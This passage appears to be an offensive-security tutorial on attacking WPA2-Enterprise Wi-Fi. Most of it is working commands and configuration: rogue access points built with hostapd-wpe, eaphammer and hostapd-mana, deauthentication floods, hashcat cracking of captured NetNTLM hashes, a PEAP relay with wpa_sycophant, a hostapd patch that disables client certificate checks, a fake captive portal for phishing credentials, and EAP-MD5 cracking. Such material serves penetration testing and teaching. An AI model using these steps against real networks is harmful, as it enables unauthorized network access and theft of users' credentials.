With the obtained clear-text credentials, we can now connect to the target enterprise Wi-Fi network as the identified user. We configure the authentication type as `Protected EAP (PEAP)` and set the inner authentication to `MSCHAPv2`. After adding the username and password, we tick the option: `No CA certificate is required` (since we are not using certificate-based authentication.) Once we hit connect, we will successfully gain access to the enterprise Wi-Fi network.

### Connecting to PEAP

#### Using nmcli

Create the wi-fi network to connect to 

```bash
sudo nmcli conn add type wifi \
  ifname wlan0 \
  con-name "Target-Connection" \
  ssid "SSID" \
  wifi-sec.key-mgmt wpa-eap \
  802-1x.eap peap \
  802-1x.phase2-auth mschapv2 \
  802-1x.identity "Domain\User" \
  802-1x.password "Password123"
```

Start the connection

```bash
sudo nmcli conn up "Target-Connection"
```

#### Using wpa_supplicant

Create a configuration file 

```bash
cat > wpa_enterprise.conf << 'EOF'
network={
	ssid="SSID"
	key_mgmt=WPA-EAP
	identity="Domain\User"
	password="Password123"
}
EOF
```

Run the wpa_supplicant connection

```bash
sudo wpa_supplicant -c wpa_enterprise.conf -i wlan0
```

Once you get a message that says Connection to XX:XX:XX:XX:XX:XX completed, open a new terminal and run the following to get an IP

```bash
sudo dhclient wlan0
```

## Enterprise Evil-Twin Attack

If certain client devices resist downgrading to a sufficiently weak standard, we won't be able to carry out the downgrade attack. In these scenarios, when the client devices use challenge-response-based authentication methods like `CHAP`, `MSCHAP`, or `MSCHAPv2`, we can employ a traditional approach. This involves setting up an enterprise evil-twin attack by creating a fake access point (Rogue AP) to capture the challenge hash, which can then be leveraged for further exploitation.

### Enumeration

Start monitor mode

```bash
sudo airmon-ng start wlan0
```

Scan networks

```bash
sudo airodump-ng wlan0mon -c 1
```

That's basically it, we have what we need now.

### Attacking

There are two main ways to perform this attack, hostapd-wpe and eaphammer. Hostapd-wpe is more manual and eaphammer automates the entire process.

#### Using hostapd-wpe

[HostAPD-wpe](https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe) is a versatile utility for attacking WPA/WPA2 Enterprise networks, handling most of the configuration for us with minimal interference. It is effective for impersonating the following EAP types:

- `EAP-FAST/MSCHAPv2 (Phase 0)`
- `PEAP/MSCHAPv2`
- `EAP-TTLS/MSCHAPv2`
- `EAP-TTLS/MSCHAP`
- `EAP-TTLS/CHAP`
- `EAP-TTLS/PAP`

To begin, we will want to make a copy of our configuration file for `HostAPD-wpe`.

```bash
cp /etc/hostapd-wpe/hostapd-wpe.conf ./hostapd-wpe.conf
```

Next, we need to modify specific sections of our `hostapd-wpe.conf` configuration file to ensure our tool functions as desired. We need to change the interface to `wlan1`, set the SSID to our target, and configure the channel to our target channel.

> [!INFO] `HostAPD-wpe` includes functionality for the heartbleed vulnerability, and in some cases, we can utilize this against client devices who use SSL certificates to authenticate to the network.

Once our interface is set up, and our `hostapd-wpe.conf` file is properly configured, we can use following the command to launch the attack. We specify `-c` for Cupid mode (which attempts to Heartbleed any clients), `-k` for Karma mode (so that all probes are responded to), and finally, the path to our configuration file.

```bash
sudo hostapd-wpe -c -k hostapd-wpe.conf
```

If everything is set up correctly, our access point should be operational and ready to capture credentials from client devices. To observe our access point in action and monitor the connectivity of client devices, we can start an `airodump-ng` session in a second terminal.

If, after some time, connected clients do not automatically switch to our network and remain associated with the original AP, we may need to perform a `de-authentication attack`. This will disconnect clients from the target access point, encouraging them to connect to our fake AP. We can execute this attack using the following command, specifying the target access point's BSSID and the client's MAC address.

```bash
sudo aireplay-ng -0 10 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

Once a client successfully connects to our fake access point and EAP negotiation is completed we should see connection information, including a username and the NETNTLM hash for the user.

When a client initially connects to our fake access point, `hostapd-wpe` will attempt to retrieve the `MSCHAPv2` hash from the client to "authenticate" it. Since this is not inherently a downgrade attack, we do not negotiate `EAP-PEAP/GTC`, which would allow us to obtain cleartext passwords if the client is vulnerable. Therefore, we will need to crack the `MSCHAPv2` hash to retrieve the correct password. Given that we rely on user passwords, the effectiveness of our attack will be contingent on the strength of the password policy in place.

#### Using eaphammer

We can also perform this attack using `eaphammer`. This powerful tool automates the entire process for us.

First, we need to create self-signed certificates that eaphammer will use to set up our fake access point. This can be done using the `--cert-wizard` option in eaphammer. This will allow you to enter the information for the cert in the terminal, try and match the cert as closely with the target as you can.

```bash
sudo eaphammer --cert-wizard
```

Once our self-signed certificates are created, we can use the following command to start our fake access point.

```bash
sudo eaphammer -i wlan1 -e SSID --auth wpa-eap --wpa-version 2
```

This command will start our fake `WPA-EAP` access point with the SSID as `HTB-Corp`. We then need to wait for clients to connect to our network. If, after some time, clients do not automatically switch to our network due to the KARMA attack and remain associated with the original access point in our airodump-ng session, we may need to perform a de-authentication attack. This will disconnect clients from the target access point, encouraging them to connect to our fake AP. We can execute this attack using the following command, specifying both the target access point's BSSID and the client’s MAC address.

```bash
sudo aireplay-ng -0 10 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

Once a client successfully connects to our fake access point and EAP negotiation is completed we should see connection information, including a username and the NETNTLM hash for the user.

### Cracking the Hash

To begin our attempt at cracking the hash we can employ the following command to run a password cracking attack against our captured hash. We specify `-m 5500` for the correct [hash mode](https://hashcat.net/wiki/doku.php?id=example_hashes), `-a 0` for the attack mode, our captured `NetNTLM` hash in Hashcat format, and finally, the dictionary file we will attempt cracking with.

```bash
hashcat -m 5500 -a 0 "DOMAIN\USER:::HASH" rockyou.txt
```

Suppose we are unable to crack the hash due to a strong password. In such a scenario, we can perform a `PEAP relay attack`. This technique lets us relay the captured NTLM hash back to the access point, allowing us to operate as a connected client without requiring the actual password.

## PEAP Relay Attack

Sometime a user's password is to strong to crack. In these situations we can instead relay the captured response to the access point. This technique allows us to act on behalf of the client, gaining network access without needing to crack the password. Essentially, the captured NTLM response is forwarded to the access point, enabling us to operate as a connected client. This relay attack was showcased at [DEF CON 26 using MitM with Mana](https://www.youtube.com/watch?v=eYsGyvGxlpI), as well as in the [SensePost](https://sensepost.com/blog/2019/peap-relay-attacks-with-wpa_sycophant/) blog.

Within the PEAP security tunnel, the authenticator or access point doesn't distinguish between a legitimate client and an attacker. Therefore, if an attacker relays a captured NTLM response to the access point, the AP will treat the attacker as a legitimate client, granting access without the attacker ever knowing the password.

### Enumeration

We will need three WLAN interfaces to perform the relay attack. One interface, `wlan0`, will be set to monitor mode for scanning and conducting de-authentication attacks against clients. The second interface, `wlan1`, will be in master mode, hosting our fake access point (Rogue AP) for clients to connect to. Our third interface, `wlan2`, will relay the captured NTLM response to the legitimate access point.

We begin by enabling monitor mode on our `wlan0` interface using `airmon-ng`.

```bash
sudo airmon-ng start wlan0
```

Once our interface is in monitor mode, we can use `airodump-ng` to scan for available Wi-Fi networks and their associated clients.

```bash
sudo airodump-ng wlan0mon -c 1
```

### Attack

To conduct a PEAP relay attack, we will need to set up the following:

1. `hostapd configuration`
2. `hostapd eapuser configuration`
3. `wpa_sycophant configuration`
4. `Generate certificates for the encrypted tunnel`

Doing so should allow us to pose our rogue access point with extra legitimacy.

To begin, we will need to generate the necessary certificates to establish an encrypted tunnel.

First, we need to generate a private key for our Certificate Authority (CA).

```bash
openssl genrsa -out ca.key 2048
```

Next, we need to generate a self-signed CA certificate, ensuring that we enter the appropriate information to effectively impersonate the target.

```bash
openssl req -new -x509 -days 365 -key ca.key -out ca.pem
```

Next, we need to generate the private key for our server.

```bash
openssl genrsa -out server.key 2048
```

Then, we need to generate a Certificate Signing Request (CSR) using the server's private key.

```bash
openssl req -new -key server.key -out server.CA.csr
```

Next, we can generate the Diffie-Hellman parameters for the key exchange.

```bash
openssl dhparam -out dhparam.pem 2048
```

Finally, we can sign the server CSR with our CA key and certificate.

```bash
openssl x509 -req -in server.CA.csr -CA ca.pem -CAkey ca.key -CAcreateserial -out server.pem -days 365
```

In summary, to represent a legitimate access point with encrypted tunnels, we need the following files:

1. `ca.pem`
2. `server.pem`
3. `server.key`
4. `dhparam.pem`

Once all our certificates are generated, we can configure `hostapd-mana`. We will need to set up two configuration files:

1. `hostapd.conf:` This file contains the settings for our rogue access point.
2. `hostapd.eapuser:` This file specifies the EAP methods for negotiation when clients connect to our rogue access point.

To get started, we need to create a `hostapd.conf` file with the following contents:

```bash
# Interface configuration
interface=wlan1
ssid=TargetSSID
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=hostapd.eap_user
eapol_key_index_workaround=0

# Mana Configuration
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1

# Certificate Configuration
ca_cert=ca.pem
server_cert=server.pem
private_key=server.key
dh_file=dhparam.pem

# Sycophant Configuration
enable_sycophant=1
sycophant_dir=/tmp/
```

In the hostapd.conf file, we need to ensure that all settings are configured correctly for our target AP.

- `SSID and Channel`: Verify that these match the target access point.
- `Certificate Files`: Specify the names and locations of the certificate files to ensure the encrypted tunnel functions properly.
- `wpa-sycophant Configuration`: Ensure this feature is enabled to relay authentication messages back to the AP.

Next, to gain refined control over EAP method negotiation between our fake access point and the client, we need to create the `hostapd.eap_user` file (referenced in our `hostapd.conf` file) with the following content:

```bash
*       PEAP,TTLS,TLS,MD5,GTC
"t"TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP   "challenge1234"[2]
```

Ideally, we configure the client to use `PEAP-MSCHAPv2` first. For downgrade attacks, we may instruct the client to use `TTLS-PAP` or other methods to retrieve cleartext credentials.

We can now bring up our fake access point using `hostapd-mana`.

```bash
hostapd-mana ./hostapd.conf
```

Next, we need to configure [wpa-sycophant](https://github.com/sensepost/wpa_sycophant) to relay authentication messages to the legitimate access point. This setup may allow us to establish an active session with the target network.

```bash
git clone https://github.com/sensepost/wpa_sycophant.git
```

We need to create a `wpa_sycophant.config` file in the `wpa_sycophant` folder with the following contents:

```bash
network={
  ssid="TargetSSID"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity=""
  anonymous_identity=""
  password=""
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  bssid_blacklist=XX:XX:XX:XX:XX:XX
}
```

In the configuration file, we set the SSID to match the target network. Additionally, we add the BSSID (MAC address) of our rogue AP to the blacklist to avoid relaying authentication messages back to ourselves, which would be counterproductive. To obtain the MAC address of our rogue AP, we use the command: `ifconfig wlan1` (as wlan1 is the interface used to host the rogue AP.)

At this point, we should have all the necessary configurations for our target network complete. We can now start `wpa-sycophant` in a separate terminal and initiate the relay using our `wlan2` interface.

```bash
sudo wpa_sycophant.sh -c wpa_sycophant.config -i wlan2
```

Once our relay server is up and running, we can wait for a client to connect. In some cases, clients may connect due to the MANA beacon attack. If not, we can perform de-authentication attacks in additional terminals to encourage clients to connect to our rogue AP.

```bash
sudo aireplay-ng -0 0 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

We should observe the `identity exchange` and the `wpa-sycophant` handoff in the hostapd terminal. Next, in the second terminal running wpa-sycophant, we should see the relay process in action.

Ultimately, we relay each message and calculate the resultant CSK. Doing so allows us to retrieve an active session within a PEAP network, without ever knowing the true password of the user.

If we obtain a valid IP address within the target network, it indicates that our attack has succeeded and we are connected to the network.

## Attacking EAP-TLS Authentication

EAP-Transport Layer Security (EAP-TLS) is considered one of the most secure authentication methods. It relies on `certificates` for both the server and client, enabling mutual authentication without the need for traditional usernames and passwords. EAP-TLS is the most widely used authentication protocol in WPA2-Enterprise networks, facilitating the use of X.509 digital certificates for secure authentication.

EAP-TLS is widely regarded as the gold standard for network authentication security. However, even with its robust protection, an evil twin attack with a rogue access point is possible if the client does not validate the server certificate.

In many organizations, a CA certificate used to sign the RADIUS server is installed on all client computers through [Group Policy](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831791\(v=ws.11\)). To ensure Windows clients don't connect to fake access points, it's essential to have the `"Notifications before connecting"` setting configured to: ["Don't ask user to authorize new servers or trusted CAs"](https://learn.microsoft.com/en-us/windows-server/networking/technologies/extensible-authentication-protocol/network-access?tabs=eap-tls%2Cserveruserprompt-eap-tls%2Ceap-sim#server-validation-user-prompt).

If this option is not configured, a victim connecting to the fake access point receives a server certificate from the attacker's authentication server, prompting them to decide whether to accept it. In some cases, the invalid certificate provided by the attacker may be accepted automatically. An attacker typically only needs to target a single improperly configured supplicant (client) to be successful.

### Enumeration

We will use three WLAN interfaces to perform this attack. One interface, `wlan0`, will be set to monitor mode for scanning and conducting de-authentication attacks against clients. The second interface, `wlan1`, will be in master mode, hosting our fake access point (Rogue AP) for clients to connect to. Our third interface, `wlan2`, will be used to forward traffic to the internet once we receive credentials from clients via captive portal.

We begin by enabling monitor mode on our `wlan0` interface using `airmon-ng`.

```bash
sudo airmon-ng start wlan0
```

Once our interface is in monitor mode, we can use `airodump-ng` to scan for available Wi-Fi networks and their associated clients. We can use the argument `-w WPA` to save the output of the capture to a file.

```bash
sudo airodump-ng wlan0mon -c 1 -w WPA
```

To capture the complete EAP handshake, we can de-authenticate the client (provided that PMK caching is disabled).

```bash
sudo aireplay-ng -0 10 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

Once the handshake is captured, we can use Wireshark with the filter `eap` to analyze the authentication type.
From the Wireshark output, we should observe that the client uses `EAP-TLS`, a certificate-based authentication method known for its high security.

### Attacking

#### Hostapd-wpe

`Hostapd-wpe` is a versatile utility to consider when attacking WPA/WPA2 Enterprise networks. It does most of the configuration for us with minimal interference. To begin with hostapd-wpe, we can run the following bash script to install the required dependencies and clone `hostapd-2.6` and `hostapd-wpe` into the `/opt` directory.

```bash
apt update -y
sudo apt install git pkg-config make gcc libssl-dev libnl-3-dev build-essential libnl-genl-3-dev libssl-dev -y
wget http://security.ubuntu.com/ubuntu/pool/main/o/openssl1.0/libssl1.0.0_1.0.2n-1ubuntu5.13_amd64.deb
wget https://security.ubuntu.com/ubuntu/pool/main/o/openssl1.0/libssl1.0-dev_1.0.2n-1ubuntu5.13_amd64.deb
dpkg -i libssl1.0.0_1.0.2n-1ubuntu5.13_amd64.deb
apt purge libssl-dev -y
dpkg -i libssl1.0-dev_1.0.2n-1ubuntu5.13_amd64.deb
cd /opt
wget https://w1.fi/releases/hostapd-2.6.tar.gz
tar xvzf hostapd-2.6.tar.gz
git clone https://github.com/OpenSecurityResearch/hostapd-wpe.git
```

To begin, we will want to make a copy of our configuration file for `Hostapd-wpe`. We do so by employing the following command:

```bash
cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf
```

Next, we need to modify specific sections of our `hostapd-wpe.conf` configuration file to ensure the tool functions as desired. We need to change the interface to `wlan1`, set the SSID to our target, and configure the channel to our target's channel.

Once our interface is configured and our `hostapd-wpe.conf` configuration file is properly set up, we can start our fake access point using the following command:

```bash
sudo hostapd-wpe hostapd-wpe.conf
```

If everything is set up correctly, our access point should be operational and ready to capture credentials from client devices. If, after some time, connected clients do not automatically switch to our network due to the KARMA attack, and they remain associated with the original access point, we may need to perform a `de-authentication attack`. This will disconnect clients from the target access point, encouraging them to connect to our fake AP. We can execute this attack using `aireplay-ng` as shown in the following command, providing the target access point's BSSID and the client’s MAC address.

```bash
sudo aireplay-ng -0 3 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

You may encounter an error message like: `TLS: Certificate verification failed, error 20 (unable to get local issuer certificate)` which indicates that our rogue access point (AP) rejected the client's certificate because it was signed by an unrecognized Certificate Authority (CA). While this error can be resolved by modifying the configuration, it also serves as a significant finding. It demonstrates that even when clients are configured to use `EAP-TLS` certificate-based authentication, which is secure by design, they are still attempting to connect to our fake AP. This suggests a potential vulnerability in the client configuration. Specifically, it fails to properly validate the server's certificate before initiating the connection, which could be exploited in certain attack scenarios.

To bypass this issue, we can modify the hostapd-wpe code to accept the client's certificate, even if it's signed by an unknown CA, and then recompile it. For detailed instructions on how this was found in a real engagement, you can refer to this blog post: [EAP-TLS Wireless Infrastructure](https://versprite.com/blog/eap-tls-wireless-infrastructure/). This modification allows our rogue AP to authenticate the client, overcoming the SSL error.

To recompile `hostapd-wpe` with modification, we'll first need to apply the hostapd-wpe patch to the hostapd-2.6 source code. We can use the following command to do so.

```bash
cd /opt/hostapd-2.6 && patch -p1 < ../hostapd-wpe/hostapd-wpe.patch
```

To proceed with the hostapd-wpe setup, we'll need to edit the `eap_server_tls.c` file in the hostapd-2.6 source code. Let's open the file `/opt/hostapd-2.6/src/eap_server/eap_server_tls.c` and navigate to line 80, where we should find the code that looks something like this:

```
if (eap_server_tls_ssl_init(sm, &data->ssl, 1, EAP_TYPE_TLS)) {
```

We need to change the `1` to `0` to disable the client certificate verification:

```
if (eap_server_tls_ssl_init(sm, &data->ssl, 0, EAP_TYPE_TLS)) {
```

After making this change, we can proceed to recompile `hostapd` with the updated configuration.

```bash
cd /opt/hostapd-2.6/hostapd &&  make
```

After the compilation is completed, it will generate two binary files: `hostapd-wpe` and `hostapd-wpe_cli`, both located in the `/opt/hostapd-2.6/hostapd` directory. With the modified hostapd-wpe now compiled, we can proceed to use it to start our fake access point (AP).

```bash
sudo hostapd-wpe hostapd-wpe.conf
```

Once the fake AP is up and running, we can increase our chances of success by performing a `de-authentication attack`. This attack forces clients to disconnect from their legitimate access point (AP), encouraging them to connect to our fake AP instead.

```bash
sudo aireplay-ng -0 3 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

When a client successfully connects to our fake access point and the EAP negotiation is completed, we should see output in the `hostapd-wpe` tab showing that a client authenticated and a handshake was completed.

#### Hostapd-mana

Alternatively, we can use `hostapd-mana` to perform the same attack. Begin by running the following bash script to install the required dependencies and clone `hostapd-mana` into the `/opt` directory.

```bash
sudo apt install git pkg-config make gcc libssl-dev libnl-3-dev build-essential libnl-genl-3-dev libssl-dev -y
wget http://security.ubuntu.com/ubuntu/pool/main/o/openssl1.0/libssl1.0.0_1.0.2n-1ubuntu5.13_amd64.deb
wget https://security.ubuntu.com/ubuntu/pool/main/o/openssl1.0/libssl1.0-dev_1.0.2n-1ubuntu5.13_amd64.deb
dpkg -i libssl1.0.0_1.0.2n-1ubuntu5.13_amd64.deb
apt purge libssl-dev -y
dpkg -i libssl1.0-dev_1.0.2n-1ubuntu5.13_amd64.deb
cd /opt
git clone https://github.com/sensepost/hostapd-mana
```

To proceed with the `hostapd-mana` setup, we'll need to edit the `eap_server_tls.c` file in the hostapd-mana source code similar to what we did with the `hostapd-wpe` source code. Let's open the file `/opt/hostapd-mana/src/eap_server/eap_server_tls.c` and navigate to line 80, where we should find the code that looks something like this:

```
if (eap_server_tls_ssl_init(sm, &data->ssl, 1, EAP_TYPE_TLS)) {
```

We need to change the `1` to `0` to disable the client certificate verification:

```
if (eap_server_tls_ssl_init(sm, &data->ssl, 0, EAP_TYPE_TLS)) {
```

After making this change, we can proceed to recompile `hostapd` with the updated configuration.

```bash
cd /opt/hostapd-mana/hostapd && make
```

After the compilation is completed, it will generate two binary files: `hostapd` and `hostapd_cli`, both located in the `/opt/hostapd-mana/hostapd` directory.

With the modified `hostapd-mana` now compiled, we can proceed to use it to start our fake access point (AP).

To use hostapd-mana, we create the configuration `hostapd.conf` file with following:

```config
interface=wlan1
ssid=TargetSSID
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user

# Certificates
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=whatever
dh_file=/etc/hostapd-wpe/certs/dh

enable_mana=1
mana_loud=1
mana_eapsuccess=1
mana_wpe=1
```

- `enable_mana=1`: Enables Karma (mana) mode to respond to all probe requests.
- `mana_loud=1`: Makes the rogue AP more noticeable by aggressively responding to probe requests, increasing the chances of clients connecting.
- `mana_eapsuccess=1`: Forces a successful EAP authentication, even if the client doesn’t complete the full process.
- `mana_wpe=1`: Enables WPE mode, which will intercept various EAP credentials

> [!INFO] In the configuration file above, we are reusing the eap_user_file and certificates from the hostapd-wpe. If desired, you can generate your own certificates, as shown previously

To start the rogue AP using hostapd-mana we use following command:

```bash
sudo hostapd hostapd.conf
```

Once the fake AP is up and running, we can increase our chances of success by performing a `de-authentication attack`. This attack forces clients to disconnect from their legitimate access point (AP), encouraging them to connect to our fake AP instead.

```bash
sudo aireplay-ng -0 3 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

When a client successfully connects to our fake access point and the EAP negotiation is completed, we should see output in the `hostapd-mana` tab, indicating that the WPA key handshake was successfully completed.

### Captive Portal Attack

Once a client with `EAP-TLS` auth is connected to our fake access point, several attack vectors become available. Here are some common attacks that can be performed:

- `Phishing Pages`: Redirect the client to a phishing page that mimics the legitimate login portal. This can trick users into entering their credentials, which we can then capture.
- `Fake Captive Portal`: Set up a fake captive portal that requests login credentials, often used in public Wi-Fi networks, to capture usernames and passwords.
- `SSL Stripping`: Downgrade HTTPS connections to HTTP, allowing us to intercept and read unencrypted data sent by the client.
- `Packet Sniffing`: Capture and analyze all traffic between the client and the internet, extracting sensitive information such as session cookies, passwords, and personal data.
- `DNS Spoofing`: Redirect the client's DNS requests to a malicious server, leading them to fake websites where further attacks can be executed.

We’ll set up a `Fake Captive Portal` to require clients to enter their credentials before they can access the internet.

We can achieve this using [Nagaw](https://github.com/bransh/Nagaw), an effective tool for creating and managing fake captive portals. By configuring Nagaw with the `-i` option set to the `wlan1` interface and the `-o` option set to the `wlan2` interface, we ensure that clients are initially unable to access the internet and are instead redirected to our captive portal login page. Once clients enter their credentials on the portal, Nagaw will redirect their traffic through the wlan2 interface, thereby restoring their internet access.

```bash
git clone https://github.com/bransh/Nagaw.git
```

```bash
sudo python2.7 nagaw.py -i wlan1 -o wlan2 -t demo
```

Once the Nagaw server is started, it will host a fake captive portal. Clients attempting to access the internet will be redirected to a login page

When a client successfully submits their credentials, we can retrieve them from the Nagaw server's output.

> [!INFO] For demonstration purposes we used Nagaw's default captive portal template by specifying `-t demo`. However, in real-world scenarios, it is advisable to customize the captive portal to make it appear more familiar and authentic to the target.

## Cracking EAP-MD5

`EAP-MD5 (EAP-Message Digest 5)` is a base security protocol within the Extensible Authentication Protocol (EAP) standard, designed to authenticate users based on a username and password combination. Its mechanism involves creating a unique `fingerprint` for each message, digitally signing packets to verify the authenticity of EAP messages. Known for being lightweight and efficient, EAP-MD5 is quick to implement and configure, making it an attractive choice for early network authentication.

The MD5 challenge-response mechanism was introduced in the 1995 Internet Engineering Task Force (IETF) draft, which later became RFC 2284. EAP-MD5 offers one-way client authentication, where the server sends a random challenge to the client. The client responds by hashing the challenge along with its password using the MD5 algorithm, proving its identity. While this method was considered an effective solution in its early days, it has since become outdated due to inherent security weaknesses.

One of the critical shortcomings of EAP-MD5 is its vulnerability to various attacks. For example, a man-in-the-middle attack can easily intercept both the challenge and the response, allowing an attacker to perform a dictionary attack to retrieve the password. The absence of server authentication further opens the door to spoofing attacks. Additionally, EAP-MD5 does not support key delivery, which is essential for securing communication channels. Due to these limitations, EAP-MD5 is generally unsuitable for wireless LANs (WLANs), where secure authentication and encryption are crucial. Instead, it is commonly used in wired networks, where its vulnerabilities are less likely to be exploited. 

> [!INFO] This [blog](https://garykongcybersecurity.medium.com/insecure-802-1x-port-based-authentication-using-eap-md5-c2b298bfc3ab) demonstrates how EAP-MD5 can be exploited within a physical LAN environment, when an intruder gains insider access to perform MiTM.

### Enumeration

We begin by enabling monitor mode on our `wlan0` interface using `airmon-ng`.

```bash
sudo airmon-ng start wlan0
```

Once our interface is in monitor mode, we can use `airodump-ng` to scan for available Wi-Fi networks and their associated clients. We can use the argument `-w WPA` to save the output of the capture to a file.

```bash
sudo airodump-ng wlan0mon -c 1 -w WPA
```

After capturing sufficient data, we can use Wireshark to analyze the authentication type by applying the `eap` filter. This will allow us to see the Request and Response using MD5-Challenge

### Attacking

In Wireshark, using the `eap` filter, we can see that the authentication method is `EAP-MD5` and under the `Response, Identity` section, the username is revealed.

Next, we need to extract the `EAP-MD5 values` (hashes) and the `ID` from the `Request, MD5-Challenge` and `Response, MD5-Challenge` sections in Wireshark. These values are crucial for further analysis and potential exploitation.

You can view the details of the request and response packets and look under the `Extensible Authentication Protocol` section to find the EAP-MD5 hash values and the ID value.

We can also use `tshark` to obtain all of the needed information as well. This will allow us to get the info without the need of a GUI.

Get the username

```bash
tshark -r WPA-01.cap -Y "eap.code==2 && eap.type==1" -T fields -e eap.identity
```

Get the Request ID and the EAP-MD5 hash value

```bash
tshark -r WPA-01.cap -Y "eap.code==1 && eap.type==4" -T fields -e eap.id -e eap.md5.value
```

Get the Response ID and the EAP-MD5 hash value

```bash
tshark -r WPA-01.cap -Y "eap.code==2 && eap.type==4" -T fields -e eap.id -e eap.md5.value
```

Or we can get everything all at once

```bash
tshark -r WPA-01.cap -Y "eap" -T fields \
  -e eap.id -e eap.identity -e eap.md5.value \
  -E header=y -E separator=,
```

At this point you should have the following:
- Username from Response, Identity
- EAP-MD5 value of Request, MD5-Challenge
- EAP-MD5 value of Response, MD5-Challenge
- The Request ID

With the collected data, we can use a tool like [eapmd5pass](https://github.com/joswr1ght/eapmd5pass) to perform a dictionary attack and crack the MD5 hash. This allows us to recover the password by comparing the hash against a list of potential passwords, making it possible to compromise the authentication credentials.

```bash
sudo apt-get install eapmd5pass
```

Before using the `eapmd5pass` tool, we need to convert EAP-MD5 values of both the `Request Challenge` and `Response Challenge` into `Colon Hexadecimal` format. This format is required for the dictionary attack to proceed.

```bash
echo <hash_value> | sed 's/\(..\)/\1:/g;s/:$//'
```

Run the above with the request and response values to get the correct colon hexadecimal format.

We can now use the eapmd5pass tool and provide the Colon Hexadecimal value of the EAP-MD5 hash from the `Request Challenge` using the `-C` argument, and the EAP-MD5 hash from the `Response Challenge` using the `-R` argument. We also include the username using the `-U` argument, the specified wordlist with the `-w` argument, and the Request ID using the `-E` argument. These inputs enable the eapmd5pass tool to execute the dictionary attack effectively and attempt to crack the EAP-MD5 hash.

```bash
eapmd5pass -w wordlist.txt -U <USERNAME> -C <REQUEST> -R <RESPONSE> -E <ID>
```

If the above is successful, we should now have the user's password.